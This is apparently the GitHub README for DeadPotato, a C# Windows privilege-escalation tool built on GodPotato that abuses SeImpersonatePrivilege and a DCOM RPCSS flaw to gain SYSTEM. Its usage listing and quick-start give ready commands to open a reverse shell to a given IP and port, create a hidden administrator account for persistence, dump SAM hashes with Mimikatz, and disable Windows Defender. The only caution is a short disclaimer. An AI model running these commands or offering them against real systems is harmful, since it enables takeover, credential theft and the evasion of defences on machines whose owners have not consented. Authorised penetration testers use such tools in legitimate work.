 ![image](https://github.com/user-attachments/assets/460525cb-1871-4608-a6e5-1c5da07f63aa)

<p align="center">
  <a href="#"><img alt="forksBDG" src="https://img.shields.io/github/forks/lypd0/DeadPotato?style=for-the-badge"></a>
  <a href="#"><img alt="starsBDG" src="https://img.shields.io/github/stars/lypd0/DeadPotato?style=for-the-badge"></a>
  <a href="#"><img alt="licenseBDG" src="https://img.shields.io/github/license/lypd0/DeadPotato?style=for-the-badge"></a>
  <a href="#"><img alt="languageBDG" src="https://img.shields.io/badge/LANGUAGE-CSHARP-green?style=for-the-badge"></a>

<h4 align="center"><i>❗Usage of this program under an unauthorized context is strictly forbidden. The author(s) of DeadPotato do not take any responsibility for any unintentional harm caused to systems. Use with caution. ❗</i></h3>

```
C:\Users\lypd0> GodPotato.exe
  
    ⠀⢀⣠⣤⣤⣄⡀⠀    _           _
    ⣴⣿⣿⣿⣿⣿⣿⣦   | \ _  _  _||_) _ _|_ _ _|_ _
    ⣿⣿⣿⣿⣿⣿⣿⣿   |_/(/_(_|(_||  (_) |_(_| |_(_)
    ⣇⠈⠉⡿⢿⠉⠁⢸   Open Source @ github.com/lypd0
    ⠙⠛⢻⣷⣾⡟⠛⠋         -= Version: 1.1 =-
        ⠈⠁⠀⠀⠀

_,.-'~'-.,__,.-'~'-.,__,.-'~'-.,__,.-'~'-.,__,.-'~'-.,_

 (*) Example Usage(s):

   -={ deadpotato.exe -MODULE [ARGUMENTS] }=-

   -> deadpotato.exe -cmd "whoami"
   -> deadpotato.exe -rev 192.168.10.30:9001
   -> deadpotato.exe -exe paylod.exe
   -> deadpotato.exe -newadmin lypd0:DeadPotatoRocks1
   -> deadpotato.exe -shell
   -> deadpotato.exe -mimisam
   -> deadpotato.exe -defender off

 (*) Available Modules:

   - cmd: Execute a command as NT AUTHORITY\SYSTEM.
   - rev: Attempts to establish a reverse shell connection to the provided host
   - exe: Execute a program with NT AUTHORITY\SYSTEM privileges (Does not support interactivity).
   - newadmin: Create a new administrator user on the local system.
   - shell: Manages to achieve a semi-interactive shell (NOTE: Very bad OpSec!)
   - mimisam: Attempts to dump the SAM database with Mimikatz. (NOTE: This will write mimikatz to disk!)
   - defender: Either enables or disables Windows Defender's real-time protection.
```

## ❔Quick Start - How To Use
The `SeImpersonatePrivilege` right is enabled in your context? With **DeadPotato**, it is possible to achieve maximum privileges on the local system.<br><br>
The tool will attempt to start an elevated process running in the context of the `NT AUTHORITY\SYSTEM` user by abusing the DCOM's RPCSS flaw in handling OXIDs, allowing unrestricted access over the machine for critical operations to be freely performed.<br><br>
⚠️ In the following case, the `-cmd` module is used. Many modules are available for use, such as the `-rev IP:PORT` for spawning an elevated reverse shell, `-newadmin usr:pass` for creating a new local Administrator user for persistence, or `-mimisam` for dumping SAM hashes.

![cmd_GQJhLcT9IH](https://github.com/user-attachments/assets/b5f71f4a-f8bc-4099-81c5-54bcece7abb6)

#### Verify SeImpersonatePrivilege rights
In order to use DeadPotato, the SeImpersonatePrivilege right must be enabled in the current context. In order to verify this, the `whoami /priv` command can be executed.
If there privilege is disabled, exploitation is not possible in the current context.
```
C:\Users\lypd0> whoami /priv

<...SNIP...>
SeImpersonatePrivilege    Impersonate a client after authentication     Enabled
<...SNIP...>
```


## 🐚 Getting an Elevated Reverse Shell
![cmd_XQASCL7Lz6](https://github.com/user-attachments/assets/201fa7cb-4253-47e4-8beb-1ae781fc481c)

### 🏅 Credits
This Project "DeadPotato" is a tool built on the source code of the masterpiece "GodPotato" by BeichenDream.
If you like this project, make sure to also go show support to [the original project](https://github.com/BeichenDream/GodPotato)

### License
This project is licensed under the [MIT License](https://choosealicense.com/licenses/apache-2.0/). Please review the LICENSE file for more details.
